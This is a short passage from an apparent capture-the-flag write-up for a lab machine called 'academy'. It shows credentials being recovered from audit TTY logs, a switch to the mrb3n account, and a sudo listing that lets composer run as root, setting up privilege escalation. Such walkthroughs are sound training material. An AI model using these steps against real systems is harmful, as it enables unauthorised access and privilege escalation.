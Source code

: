 ![aureport_tty.PNG](../images/academy/aureport_tty.PNG)

- we can see credentials for `mrb3n`

- switching user

```bash
cry0l1t3@academy:/var/log$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n
```

- On running `sudo -l` found that user can run `composer` as `root`

```bash
$ sudo -l
[sudo] password for mrb3n: 
Sorry, try again.
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

```
